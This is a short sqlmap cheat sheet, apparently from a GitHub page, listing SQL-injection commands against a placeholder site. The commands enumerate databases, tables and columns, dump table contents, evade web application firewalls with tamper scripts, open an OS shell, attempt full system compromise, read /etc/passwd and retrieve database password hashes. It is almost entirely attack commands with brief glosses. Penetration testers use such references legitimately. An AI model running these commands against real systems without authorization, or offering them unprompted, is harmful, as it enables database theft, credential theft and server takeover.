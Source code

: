 ## Basic Usage

```
sqlmap -u "http://target.com/page.php?id=1"
```

## Specify Request Method and Data

```
sqlmap -u "http://target.com/page.php" --data="id=1"
```
	Useful for POST requests.

## Scan a URL from a Request File

```
sqlmap -r request.txt
```
`request.txt` contains raw HTTP request headers/body.

## Database Enumeration

### List Databases

```
sqlmap -u "http://target.com/page.php?id=1" --dbs
```

## List Tables in a Database

```
sqlmap -u "http://target.com/page.php?id=1" -D <dbname> --tables
```

## List Columns in a Table

```
sqlmap -u "http://target.com/page.php?id=1" -D <dbname> -T <tablename> --columns
```

## Dump Data from a Table

```
sqlmap -u "http://target.com/page.php?id=1" -D <dbname> -T <tablename> --dump
```

## Bypass WAFs / Filters

```
sqlmap -u "http://target.com/page.php?id=1" --tamper=between,randomcase
```

## Advanced Features

- `--os-shell`: Get an interactive OS shell
- `--os-pwn`: Attempt to gain a full system compromise
- `--file-read=/etc/passwd`: Read files from the server
- `--passwords`: Retrieve DBMS user password hashes
- `--batch`: Skip prompts (useful for scripting)


## Notes
   
- Combine with a proxy (`--proxy=http://127.0.0.1:8080`) to monitor traffic with Burp.
- Use `--level` and `--risk` to control the intensity of the test.




